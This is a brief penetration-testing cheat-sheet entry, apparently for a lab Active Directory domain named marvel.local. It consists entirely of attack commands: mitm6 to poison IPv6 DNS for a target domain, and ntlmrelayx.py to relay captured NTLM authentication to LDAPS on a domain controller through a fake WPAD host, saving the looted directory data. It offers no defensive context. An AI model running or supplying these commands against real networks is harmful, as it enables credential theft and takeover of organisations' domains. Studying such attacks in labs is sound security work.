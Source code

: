 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```




